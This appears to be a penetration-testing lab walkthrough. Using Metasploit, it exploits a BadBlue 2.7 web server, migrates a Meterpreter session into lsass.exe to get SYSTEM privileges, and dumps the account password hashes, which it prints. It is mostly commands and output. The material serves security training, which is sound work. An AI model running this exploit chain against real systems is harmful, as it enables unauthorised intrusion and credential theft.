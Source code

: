 ```
service postgresql start && msfconsole
workspace -a PsExec
setg RHOSTS 10.2.29.165
search badblue
use exploit/windows/http/badblue_passthru
show options
set target BadBlue\ EE\ 2.7\ Universal
exploit
```

Get our current privileges.

```
meterpreter > getuid
Server username: ATTACKDEFENSE\Administrator
```

We have Administrator access. 

List out the `sysinfo`, or System Information.

```
meterpreter > sysinfo
Architecture : x64
Meterpreter : x86/windows
```

We have a 32-bit meterpreter payload.

Locate the LSASS process or lsass.exe.

```
meterpreter > pgrep lsass
788
```

Migrate into that particular process.

```
meterpreter > migrate 788
```

Get our privileges or list out the current access that we have.

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

We have `NT AUTHORITY\SYSTEM` privileges.

Use the `hashdump` command or utilize the Mimikatz or Kiwi module.

```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
student:1008:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:f27c0c12a5c94e851d73b4ce3a77d149:::
```

